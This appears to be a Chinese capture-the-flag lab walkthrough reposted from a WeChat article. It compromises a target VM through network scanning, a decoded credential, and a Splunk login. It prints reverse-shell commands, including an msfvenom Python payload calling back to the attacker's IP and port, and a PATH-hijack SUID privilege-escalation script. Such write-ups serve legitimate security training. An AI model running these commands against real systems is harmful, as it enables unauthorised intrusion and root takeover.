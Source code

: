 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/7lnS_Ip3vNW_hF3wwR5UAA)

![](https://mmbiz.qpic.cn/mmbiz_png/gNsXp5YKJbq5oM4XHQKI3ia7Eee0ZzaVK0Qp5OVpvxwpqvPmpxMUI9hBW1Otia6oOAUUrpE5y1icmWZvqArTjYGxw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/YBcDOavVXrFRTXTSwVbco0V9jPF6RpgNsLgs8FetO1teNBX2VOHlM8q4gld2nBBdTy1fSibOee4ya0ZMBZThkkw/640?wx_fmt=png)

0x01 确定靶机即开放端口信息

  

  

![](https://mmbiz.qpic.cn/mmbiz_svg/Mjzdia7evAzyic2mz7mkz0YzsRd4bnqXwEtkzeNtbPuZCvE1JaU1j3ia8uL2odQsbSxKVPUjVOoFjoLIhRk9AAcnibc3mYleuuMU/640?wx_fmt=svg)

![](https://mmbiz.qpic.cn/mmbiz_png/biaqdOsLFKNRDfTGCQSCqnAceFGAI3Q15QhTLrZ23atSCU21v8qCIYx0AQSoTCnBdUZZG0fq6s7sLtPrIaicc3PA/640?wx_fmt=png)

攻击机 ip：192.168.19.174

靶机 ip：不知道, 与攻击机都在 NAT 模式

![](https://mmbiz.qpic.cn/mmbiz_svg/0wRpPfN90ibCn2u3keWK9wYuZeWZg7pVKicwe2DT9YTkhzJmA9THu8VNFicGhicRcurib56wXMicRY3nrIWrekbyCTQGeiacTMzsIYr/640?wx_fmt=svg)

**a. 扫描网段, 确定靶机 ip**

```
nmap -sP 192.168.19.0/24
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08G25zw4gjxcWFnU4ia5Jfv5PHnua0rWoBzic9307fKROkYStlViah8PvRFoEDicCY33mbrjgIKYkM13A/640?wx_fmt=png)

因为提前知道了攻击机的 ip 为 192.168.19.174, 在同一局域网我们便确定了靶机的 ip 为 192.168.19.175

**b. 扫描靶机开放的端口**

```
nmap -A 192.168.19.175
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08G25zw4gjxcWFnU4ia5Jfv5SFocsJ7jLZNqDdwgScgNzDORBkMW3YekwMMH2YXWtr5iaMvhicvIh4ibQ/640?wx_fmt=png)

根据扫描的结果, 我们知道靶机开放了 80,8000 等端口, 还开放了 / groot 的目录。

![](https://mmbiz.qpic.cn/mmbiz_png/gNsXp5YKJbq5oM4XHQKI3ia7Eee0ZzaVK0Qp5OVpvxwpqvPmpxMUI9hBW1Otia6oOAUUrpE5y1icmWZvqArTjYGxw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/YBcDOavVXrFRTXTSwVbco0V9jPF6RpgNsLgs8FetO1teNBX2VOHlM8q4gld2nBBdTy1fSibOee4ya0ZMBZThkkw/640?wx_fmt=png)

0x02 访问 web 界面, 进行 web 渗透

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08G25zw4gjxcWFnU4ia5Jfv5QX2kgfafzWHG3mogLpDlRPCJlBFhgLibic9NlgZ1QKSib1NIBlBLmoFDg/640?wx_fmt=png)

在 web 界面中, 并没有得到什么有用的信息, 根据平时渗透的经验, 一些信息可能被注释在源码中。所以我们从源码开始下手。

在源码中, 我们看到了几个超链接, 在一个超链接中, 我们发现了如下信息：

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08G25zw4gjxcWFnU4ia5Jfv5A2EbbibsUV3SSp3O93LRaXdOqialzu9qHVW7yiahZHfGfgJgTwiak8Hmow/640?wx_fmt=png)

尝试用 base64,unicode 等解密方法解密, 尝试 16 进制解密后发现了如下类似于账号和密码的信息：

```
agent：avengers
```

有可能是靶机的账号加上密码, 所以下一步我们尝试用 ssh 进行登录：

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08G25zw4gjxcWFnU4ia5Jfv5sHuosKZ7bfdoIrtzmibcppSE1XBepL3D4lSUKoXQ0MmrFW1sgIPHAKw/640?wx_fmt=png)

但是 ssh 登录失败, 所以这不是系统用户, 可能是某一个插件的账号

![](https://mmbiz.qpic.cn/mmbiz_png/gNsXp5YKJbq5oM4XHQKI3ia7Eee0ZzaVK0Qp5OVpvxwpqvPmpxMUI9hBW1Otia6oOAUUrpE5y1icmWZvqArTjYGxw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/YBcDOavVXrFRTXTSwVbco0V9jPF6RpgNsLgs8FetO1teNBX2VOHlM8q4gld2nBBdTy1fSibOee4ya0ZMBZThkkw/640?wx_fmt=png)

0x03 访问 8000 端口, 继续收集信息

  

  

在拿到一个类似于账号加密码的信息之后, 发现利用 ssh 登录失败, 回到最初扫描得到的信息中, 访问 8000 端口。访问之后, 我们发现了系统安装了 Splunk, 进入到 Splunk 的主界面上, 有一个用户登录的信息, 尝试用刚刚拿到的信息进行登录。

利用刚才得到的账号加密码, 我们成功地登陆了 Splunk 的后台

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08G25zw4gjxcWFnU4ia5Jfv50881F7bZTmjpwg3JqIJibZ9pJb66jszRTb1p2iaOzUjCeibmgtWPlBTgQ/640?wx_fmt=png)

从网上搜了一下 Splunk 的使用方法之后, 我们可以上传一个 shell 的 gz 包

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08G25zw4gjxcWFnU4ia5Jfv5LswpeW1OQqOpPel9YVAWPszXVBIT3pFI25jbYZ8EBDFbTsQAcLD72w/640?wx_fmt=png)

```
| revshell std 192.168.19.175 1234
```

上传 shell 的 gz 包后, 我们利用命令触发 shell 反弹

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08G25zw4gjxcWFnU4ia5Jfv5jUMgnM9q6ZIUAPtLA14njib4gFlWyuwsvSuhvFJJ4icPFEFdzWQuxWeQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08G25zw4gjxcWFnU4ia5Jfv5OE5gQ9IquicyW0xPo9bs49yFaYvpzPN0lxyia0SGDlddkiaicjySGm4zNw/640?wx_fmt=png)

拿到一个普通用户的权限之后, 接下来的任务就是提权了

![](https://mmbiz.qpic.cn/mmbiz_png/gNsXp5YKJbq5oM4XHQKI3ia7Eee0ZzaVK0Qp5OVpvxwpqvPmpxMUI9hBW1Otia6oOAUUrpE5y1icmWZvqArTjYGxw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/YBcDOavVXrFRTXTSwVbco0V9jPF6RpgNsLgs8FetO1teNBX2VOHlM8q4gld2nBBdTy1fSibOee4ya0ZMBZThkkw/640?wx_fmt=png)

0x04 提权

  

  

**a. 获得交互式 shell**

可以使用 msfvenom 命令生成一个 python 的交互式命令

```
msfvenom -p cmd/unix/reverse_python lhost=192.168.19.174 lport=4444 R
```

执行成功后, 会生成一个关于 python 的 base64 代码

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08G25zw4gjxcWFnU4ia5Jfv5iaCZNsZvO2UQhgNsL57VWEjwrXuaKxh6bCP4ffo9NUddlK18ibf7NA5Q/640?wx_fmt=png)

我们将生成的 python payload 直接在刚刚已经获得的普通用户的 shell 上直接运行, 在 kali 端进行端口的监听, 这样在获得一个 shell 之后, 我们就可以用 python 的交互式命令得到一个交互式的 shell

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08G25zw4gjxcWFnU4ia5Jfv5v5TF0bibomZTK1YuY5OHEgtZqpDUOAiaFia09hIRRYDuvllXT5gZwqXew/640?wx_fmt=png)

**b. 内核提权**

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08G25zw4gjxcWFnU4ia5Jfv5bweZtnUMlyeOk5iaic4QdYJCqSB6J7mZtbTP4DeqNDGhpG0wEp3bspibg/640?wx_fmt=png)

在这里我们查到的信息为：系统版本为 18.04, 内核版本为 4.18, 在 kali 上找一下相关的 exp, 没有找到相关的 exp。

**c.SUID 提权**

首先查找系统内的 SUID 可执行文件

```
find / -perm -u=s -type f 2>/dev/null
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08G25zw4gjxcWFnU4ia5Jfv5KUVrloyU4C7PYkWKwS5wrWiaSXuvFfjEkDpSiaUHibbh2KzdlNLUHZIHQ/640?wx_fmt=png)

在查找文件的时候, 发现了这样一个文件 / opt/ignite, 尝试一下从这个文件下手。

找了一下相关 suid 提权的相关思路, 利用 suid 提权, 成功拿到了 root 的权限

```
cd /tmp
echo "/bin/bash" > ifconfig
chmod 777 ifconfig
export PATH=/tmp:$PATH
/opt/ignite
cd /root
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08G25zw4gjxcWFnU4ia5Jfv5DsWqsuGkaINkQBaZFoPiaJ3ara5DNR68gVNv9hefPia14xuK0VhwlfyQ/640?wx_fmt=png)

end

  

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZ7rRw3kbvpDFicsKcLcp9Q7tYiaMwLANvcHAoByTiaGaus4HBukgfIXt9g/640?wx_fmt=png)